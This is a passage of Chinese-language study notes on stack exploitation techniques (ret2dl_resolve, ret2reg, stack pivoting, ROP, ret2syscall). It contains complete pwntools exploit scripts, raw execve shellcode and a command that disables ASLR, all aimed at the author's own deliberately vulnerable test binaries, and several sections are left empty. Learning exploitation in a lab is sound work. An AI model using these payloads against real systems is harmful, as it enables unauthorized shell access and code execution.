stackLength = -0x400  # .bss后面为heap部分，可写，经测试这里要ret2dl_resolve成功，栈顶得有0x700的增长空间
stack_top = bss_end- stackLength  # 保证栈顶往上还有相当一段可写的空间
plt0_addr = elf.get_section_by_name('.plt').header.sh_addr
Elf32_Rel_len = 8
Elf32_Sym_len = 16
fake_stack_len = 20
fake_sym_addr_noAlign= stack_top+fake_stack_len+Elf32_Rel_len
alignLength1=(16-(fake_sym_addr_noAlign-elf.get_section_by_name('.dynsym').header.sh_addr)%16)%16

# 函数名
func_name = b'system\x00'
# system函数参数所指向的字符串，这里是显示构造了，如果程序中本来就有，也可以指向其位置
command = b'/bin/sh\x00'
 

# 栈迁移后伪造栈的内容
ebp=p32(stack_top+stackLength)  # 栈迁移后的pop ebp，这里随便给一个值应该也不影响
ret2_plt0 = p32(plt0_addr)  # 栈迁移后的ret地址，指向_dl_runtime_resolve前的push link_map
# 这里开始伪造进入plt[0]前的栈状态
# 伪造reloc_arg，从rel_plt到结构体Elf32_Rel的绝对地址偏移
fake_reloc_arg = p32((stack_top+fake_stack_len-elf.get_section_by_name('.rel.plt').header.sh_addr))
# call动态函数的栈状态
call_func_ret = p32(0)
command_addr  = p32(fake_sym_addr_noAlign+alignLength1+Elf32_Sym_len+len(func_name))

fake_stack = flat(ebp,ret2_plt0,fake_reloc_arg,call_func_ret,command_addr)

# 伪造的Elf32_Rel，这里注意地址对齐，如果不是4的倍数，需要调整
# r_offset 本次调用用不到，只要地址可写就行
r_offset = p32(elf.got['write'])
# 低8位位0x07，高24位表示.dynsym到Elf32_Sym的数组偏移
# 由于fake_sym_addr需要从.dynsym开始16对齐，需要一个align来填充
fake_sym_addr = fake_sym_addr_noAlign+alignLength1
r_info = p32((((fake_sym_addr - elf.get_section_by_name('.dynsym').header.sh_addr)//16) << 8) | 0x7)
fake_Elf32_Rel = flat(r_offset,r_info)

alignPadding = b'a'*alignLength1

# fake_Elf32_Sym
# st_name是函数名相对.dynstr的偏移地址
st_name = stack_top+fake_stack_len+Elf32_Rel_len+alignLength1+Elf32_Sym_len - elf.get_section_by_name('.dynstr').header.sh_addr
fake_Elf32_Sym = flat(p32(st_name),p32(0),p32(0),p32(0x12))


 

bss_payload = fake_stack+fake_Elf32_Rel+alignPadding+fake_Elf32_Sym+func_name+command

padding = 0x6c
old_ebp = p32(0)  # stack_top写在这里实际上没有用，后面被覆盖还要写
ret_ip = p32(elf.plt['read'])
call_func_ret = p32(rop.find_gadget(['pop esi','pop edi','pop ebp','ret']).address)  # 返回后清除三个参数
read_param1 = p32(0)
read_param2 = p32(stack_top)
read_param3 = p32(len(bss_payload))
ebp_ret = p32(rop.ebp.address)
esp = p32(stack_top)
leave_ret = p32(rop.leave.address)


payload = flat([padding*'A', old_ebp, ret_ip, call_func_ret, read_param1, read_param2, read_param3,ebp_ret,esp,leave_ret])

d=b'Welcome to XDCTF2015~!\n'
pause()
io.sendlineafter(d, payload)
pause()
io.send(bss_payload)

io.interactive()
```

* NO RELRO 的利用：
  * `.dynamic` 节可写，无需伪造Elf32_Rel和Elf32_Sym，只需要更改DT_STRTAB，保证st_name+DT_STRTAB指向伪造函数名

```shell
gcc -fno-stack-protector -z norelro -no-pie ret2dl_resolve.c -o ret2dl_resolve64
```

```python

```

* FULL RELRO 为什么无法利用

##### ret2dl-resolve x64

```c
// 同上

```

```shell
gcc -fno-stack-protector -z relro -no-pie ret2dl_resolve.c -o ret2dl_resolve64NoRelro
```

```python

```

##### ret2reg

* 使用场景
  * 发生溢出时，存在寄存器指向缓冲区空间
  * 查找对应的call 寄存器或者jmp 寄存器指令，将EIP设置为该指令地址
  * 将寄存器所指向的空间上注入shellcode（确保该空间是可以执行的，通常是栈上的）
* 特点
  * 无需知道确切的栈地址，有些情况甚至可以绕过PIE和ASLR
  * 常见于strcpy字符串拷贝函数中

```c
#include <stdio.h>
#include <string.h>
void evilfunction(char *input) {
        char buffer[512];
        strcpy(buffer, input);
}
int main(int argc, char **argv) {
        evilfunction(argv[1]);
        return 0;
}
```

```shell
gcc -Wall -z execstack -m32 -fno-stack-protector -no-pie ret2reg.c -o ret2reg  
```

```assembly
; __unwind {
endbr32
push    ebp
mov     ebp, esp
push    ebx
sub     esp, 204h
call    __x86_get_pc_thunk_ax
add     eax, (offset _GLOBAL_OFFSET_TABLE_ - $)
sub     esp, 8
push    [ebp+input]     ; src
lea     edx, [ebp+buffer]
push    edx             ; dest
mov     ebx, eax
call    _strcpy
add     esp, 10h
nop
mov     ebx, [ebp+var_4]
leave
retn
; } // starts at 11CD
evilfunction endp
```

```python
from pwn import *
import os

context(log_level='debug',arch='i386', os='linux')
context.terminal = ['gnome-terminal', '--']
elfpath = '/home/lideao/C/02_TEST/ret2reg32'
context.binary = elfpath
elf = ELF(elfpath)
rop = ROP(context.binary)

shellcode = b"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

padding = 0x208
ebp=0x04
ret_ip=next(elf.search(asm('call eax')))
payload = shellcode+b'a'*(padding-len(shellcode)+ebp)+p32(ret_ip)


io = process([elfpath,payload])

io.interactive()
```


#### 防御

##### ASLR&PIE

* **ASLR** 是一种安全机制，用于在程序每次运行时随机化内存中各个关键区域（如堆、栈、共享库、可执行文件等）的地址，从而 **防止攻击者预测内存地址**，对抗如 ret2libc、ROP 等利用。

```shell
# 查看ASLR是否开启，现代操作系统默认开启了 ASLR，这会导致每次程序运行时，栈、堆、库函数（如 libc）、程序本身的数据段/代码段 的地址都可能会变化，难以确定注入栈上注入的shellcode的地址
cat  /proc/sys/kernel/randomize_va_space

# 临时关闭ASLR，重启后恢复
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

# gdb默认关闭，可以手动开启
set disable-randomization off
```



* 影响堆栈、动态链接库

##### 对栈地址空间的影响

* 未开启ASLR的情况下栈地址的分布

##### PIE

* 页地址对齐，爆破部分地址
* fork子进程，基址不变，爆破全部地址
* 泄露地址

##### RelRO（Relocation Read-Only）

*  ELF 可执行文件中的一种 **内存保护机制**，主要用于防止攻击者利用 **GOT 表劫持**（比如通过修改 `.got` 表项跳转到恶意代码）的方式进行 **控制流劫持攻击**

```shell
gcc -z norelro  # 关闭
# .dynamic可写

gcc -z lazy  # 部分开启
# .fini_array 可写
# .got.plt 可写
# .got不可写

gcc -z now  # 完全开启
```

#### 关于ret2的总结

#### 栈迁移 (stack pivoting)

* 用于以下场景
  * 栈空间太小，不足以容纳想要溢出的数据
  * 栈不可写
  * 栈是随机的，地址难以预测，迁移到可以控制的`.bss`或`.heap`地址
  * 分阶段利用
* 方法
  * 连续两个`leave;ret;`，可以由栈上数据控制`rbp和rsp`（主要是`rsp`）
  * 更原子化的操作是`pop rbp;mov rsp,rbp;pop rbp;`(`pop rsp`不常见，但是`pop rbp`和`mov rsp,rbp`非常常见)

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> 

char a[100];  // 占用空间大一点的全局变量，使编译出的程序 .bss段足够大

int do_func(){
	char b[8] = {};
    write(1, "input:",6);
    read(0,b,0x100);
    return 0;
}


int main(){ 
	do_func();
    return 0;
}

```

```c
gcc -m32 -no-pie -fno-pie -fno-stack-protector  program.c -o program
```

* 将栈迁移到`.bss`，在该段写入`/bin/bash`并打印出来
* 思路
  * 先ret到read，向`.bss`写入数据（也可以通过`pop reg;mov [reg],reg;ret` 这样的gadget写入，甚至更简单）
  * 将栈迁移到`.bss`
  * ret2到write函数，将刚刚迁移的栈作为参数

* 注意
  * 栈迁移的位置，保证栈顶能够继续向上增长（栈顶往上可写，后续函数调用可能会使用）


```python
from pwn import *

context(log_level='debug',arch='i386', os='linux')
context.terminal = ['gnome-terminal', '--']
elfpath = '/home/lideao/C/01_PWM/stackPivotingNew'
context.binary = elfpath
io=process()
gdb.attach(io, '''
    b main
    b *do_func+71
    c
''')

elf = ELF(elfpath)
rop = ROP(context.binary)

bss_start = elf.bss()              # .bss 段起始地址
bss_size = elf.get_section_by_name('.bss').header.sh_size  # .bss 段大小
bss_end = bss_start + bss_size     # .bss 段结束地址

command = b'/bin/sh\x00'
stackLength = 4*6
stack_top = bss_end- stackLength - len(command)  # 保证栈顶往上还有相当一段可写的空间

ebp=p32(stack_top+stackLength)  # 栈迁移后的pop ebp，这里随便给一个值应该也不想影响
ret_ip2 = p32(elf.plt['write'])  # 栈迁移后的ret地址
call_func_ret = p32(0)
write_param1 = p32(1)
write_param2 = p32(stack_top+stackLength)
write_param3 = p32(len(command))
 

bss_payload = flat([ebp,ret_ip2,call_func_ret, write_param1, write_param2, write_param3, command])

padding = 0x10
old_ebp = p32(0)  # stack_top写在这里实际上没有用，后面被覆盖还要写
ret_ip = p32(elf.plt['read'])
call_func_ret = p32(rop.find_gadget(['pop esi','pop edi','pop ebp','ret']).address)  # 返回后清除三个参数
read_param1 = p32(0)
read_param2 = p32(stack_top)
read_param3 = p32(len(bss_payload))
ebp_ret = p32(rop.ebp.address)
esp = p32(stack_top)
leave_ret = p32(rop.leave.address)


payload = flat([padding*'A', old_ebp, ret_ip, call_func_ret, read_param1, read_param2, read_param3,ebp_ret,esp,leave_ret])

d=b'input:'
pause()
io.sendlineafter(d, payload)
pause()
io.send(bss_payload)

io.recvall()
io.interactive()
```

#### GOT表劫持

#### ROP

> ret2libc与shellcode注入相比，使用起来不太灵活，因为ret2libc只能利用text段和libc中已有的函数，而shellcode注入可以达成任意代码执行。但shellcode现如今受到越来越多的限制，这是因为我们能注入代码的地方一旦被标记为不可执行，shellcodo就失效了。
>
> ROP（return-oriented programming）返回导向编程，无需我们注入shellcode就可达成任意代码执行的效果。它的主要思想是利用源程序中已有的代码片段，利用ret指令将这些代码片段连接起来，完成任意代码执行。

```nasm
; exit(0) shellcode
xor eax, eax
xor ebx, ebx
inc eax
int 0x80
```

要通过ROP执行上述代码，我们先在程序中找到如下代码片段（gadgets）

```nasm
; exit(0) shellcode
xor eax, eax ;片段一
ret

xor ebx, ebx ;片段二
ret

inc eax ;片段三
ret

int 0x80 ;片段四
```

然后通过栈溢出修改栈上的返回地址，使多个片段通过ret连接起来。

> 为了搜索gadgets，已经有论文提出了相关的搜索算法，这里不过多介绍，目前也有许多现成、成熟的gedgets搜索工具，例如ROPgadget、Ropper等。
>
> 在gadgets足够多的程序中，其具有的计算能力是图灵完备的，也就是说可以借助其实现我们想要的各种操作：
>
> 1. 保存栈数据到寄存器
> 2. 保存内存数据到寄存器
> 3. 保存寄存器数据到内存
> 4. 算数和逻辑运算
> 5. 系统调用
> 6. 影响栈帧

##### 技巧

* 指令拆分技巧
* 寄存器值的设置
  * 找pop
  * 找不到pop的情况下，找到mov或者设置相关寄存器值的指令代替

#### ROP变种——JOP

> ROP需要频繁的使用ret指令，于是许多针对这个特性的防御方式也随之出现，例如：检测程序是否有频繁的ret指令，作为程序告警的依据；维护一个影子栈，这个栈作为正常栈的备份，每次ret时对比检查是正常栈是否被修改了值；在编译器层面重写二进制文件，消除ret指令。
>
> ret指令的实质是pop ip，这条指令的主要作用是通过将栈中的数据出到ip寄存器，改变程序执行流，在同时也改变了栈和一些寄存器（例如sp）的状态。知道了ret指令的实质作用，即使不能使用ret指令，我们也可以借助其他指令达成相同的作用。
>
> x86和ARM中存在一些指令序列，能够代替ret的工作，它们首先更新全局状态（如栈指针），然后根据更新后的状态加载下一条指令地址，并跳转执行。这样的指令序列被称为update-load-branch，使用它们来代替ret指令。但update-load-branch一般比ret指令稀少，通常作为跳板（trampoline）使用，当一个gadget执行结束后，跳转到trampoline，trampoline更新程序状态后把控制权交给下一个gadget，由此行程ROP链。由于这些gadgets指令都以jmp纪委，我们就称之为JOP。

```nasm
; 这里的副作用是覆盖了eax，当程序后续执行依赖eax时就会出问题，但这里的eax可以替换为任意一个通用寄存器
pop eax
jmp eax
```

上面谈到的是直接跳转，另外还有一种间接跳转的方式，先跳转到一个sequence catalog，这里暂时不介绍，到后续接触到时再介绍。

#### Blind ROP

> Blind ROP能在无法获得二进制程序的情况下，给予远程服务崩溃与否，进行ROP攻击获得shell，可用于开启ASLR、NX和canaries的64位Linux。利用Blind ROP的条件有两点，第一，目标程序存在稳定可触发的栈溢出漏洞；二，目标进程在崩溃后会立即重启，并且重启后的进程内存不会重新随机化，这样目标机器开启了ASLR也没有影响，如果同时启用了PIE，则服务器必须是一个fork服务器，并且重启时不使用execve。
>
> BROP的主要攻击流程这里不多说，后续展示实例时再讲解。

#### SROP

#### sigreturn rop（x86/x86_64）

### one_gadget

* one_gadget为pwn中字节达成目攻击者目的的一段gadget（比如system("/bin/sh")、execve("/bin/sh",NULL,NULL)）等，仅需要将返回地址设置为one_gadget的地址即可直接完成攻击
* execve("/bin/sh",NULL,NULL)这样的one_gadget一般在libc这种库里都可以找到，但是往往对ret2前的寄存器状态有需求；也可以直接在程序中找符合自己要求的非execve("/bin/sh",NULL,NULL)的one_gadget

### .fini_array

* `.fini_array` 是 ELF 程序退出时会调用的函数指针数组。 
* 程序执行 `exit()` 或 `return from main()` 时，glibc 会调用 `__run_exit_handlers()`，它会顺序（逆序遍历）执行 `.fini_array` 里的函数指针。
* norelro时可写

```python
# pwntools找.fini_array地址
fini_array = elf.get_section_by_name(".fini_array")
fini_addr = fini_array.header.sh_addr
fini_size = fini_array.header.sh_size
```


### 内存写入指令

```assembly
mov [rdi], rax ; ret
mov [rdx], ecx ; ret
mov [rsi], edi ; ret


# 字符串指令
rep movsb ; ret
stosb ; ret
movsb ; ret


push rax ; ret
pop qword ptr [rdi] ; ret

# 调用函数
```

### 利用栈溢出遇到的困难

#### ASLR关闭下推测栈地址

#### 内存信息泄露

##### 栈地址

##### 代码地址

#### 特定字符的限制

#### 找不到指定字符串

##### 截取|看字节不看类型|

##### 已知栈空间，写入栈

##### 写入.bss、.data 或 mmap 区域

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> 

int do_func(){
	char b[8] = {};
    write(1, "input:",6);
    read(0,b,0x100);
    return 0;
}


int main(){ 
	do_func();
    return 0;
}
```

```shell
gcc -static -no-pie -fno-pie -fno-stack-protector  program.c -o program
```

* 这里使用ret2syscall，手动构造`/bin/sh`
* 手动构造`/bin/sh`又有两种方式：
  * read系统调用，输入`/bin/sh`
  * 多次部分写入，直到写入一个完整`/bin/sh`
* 写入的地方可以是.bss .data mmap区域，地址对齐区域（align）是一个较好的选择

```python
# read系统调用写入
from pwn import *

context(log_level='debug',arch='amd64', os='linux')
context.terminal = ['gnome-terminal', '--']
elfpath = '/home/lideao/C/ret2syscall'
context.binary = elfpath
io=process()
# gdb.attach(io, '''
#     b main
#     b *do_func+68
#     c
# ''')
elf = ELF(elfpath)
rop = ROP(context.binary)

bin_sh_addr = 0x04C26FC  # 写入 /bin/sh的地址

padding=0x08
rbp_padding=0x08
pop_rax_ret=rop.rax.address
pop_rdi_ret=rop.rdi.address
pop_rsi_ret=rop.rsi.address
pop_rdx_ret=rop.rdx.address
syscall_ret = rop.find_gadget(['syscall','ret']).address
syscall_addr=rop.syscall.address

payload=b'\x00'*padding+b'a'*rbp_padding
payload+=flat([pop_rax_ret,0,pop_rdi_ret,0,pop_rsi_ret,bin_sh_addr,pop_rdx_ret, 8,syscall_ret])
payload+=flat([pop_rax_ret,0x3b,pop_rdi_ret,bin_sh_addr,pop_rsi_ret,0,pop_rdx_ret,0,syscall_addr])

delimiter = 'input:'
io.sendlineafter(delimiter,payload)
pause()
io.send(b'/bin/sh\x00')

io.interactive()
```

```python
# 这里模仿memcpy的行为，在无法控制标准输入的情况下更有效
# 寻找 mov [reg],reg;ret; 这样的gadget

from pwn import *

context(log_level='debug',arch='amd64', os='linux')
context.terminal = ['gnome-terminal', '--']
elfpath = '/home/lideao/C/ret2syscall'
context.binary = elfpath
io=process()
# gdb.attach(io, '''
#     b main
#     b *do_func+68
#     c
# ''')
elf = ELF(elfpath)
rop = ROP(context.binary)

bin_sh_addr = 0x4C26FC  # 写入/bin/sh的地址
mov_rdxP_rax_ret = 0x418DA8  # mov qword ptr [rdx],rax; ret; 

padding=0x08
rbp_padding=0x08
pop_rax_ret=rop.rax.address
pop_rdi_ret=rop.rdi.address
pop_rsi_ret=rop.rsi.address
pop_rdx_ret=rop.rdx.address
syscall_addr=rop.syscall.address

payload=b'\x00'*(padding+rbp_padding)
payload+=flat([pop_rax_ret,b'/bin/sh\x00',pop_rdx_ret,bin_sh_addr,mov_rdxP_rax_ret])
payload+=flat([pop_rax_ret,0x3b,pop_rdi_ret,bin_sh_addr,pop_rsi_ret,0,pop_rdx_ret,0,syscall_addr])

delimiter = 'input:'
io.sendlineafter(delimiter,payload)
io.interactive()
```

##### 环境变量|argv[]|动态读取

#### 没办法在相同内存布局情况下多次溢出

#### 在ret前避免崩溃

* free的指针在栈上

| 方案编号 | 方法                         | 可行性 | 原理简述                            |
| -------- | ---------------------------- | ------ | ----------------------------------- |
| 方法一   | 使用已分配堆地址             | ✅高    | 提前分析堆地址，写入合法地址供 free |
| 方法二   | 构造假堆块指针（伪造 chunk） | ⚠️中    | 比较危险，需熟悉堆结构              |
| 方法三   | 让 free(NULL)                | ⚠️低    | 如果程序先访问指针则无效            |
| 方法四   | 提前 hijack 执行流           | ⚠️高    | 技术门槛高，不总能实现              |
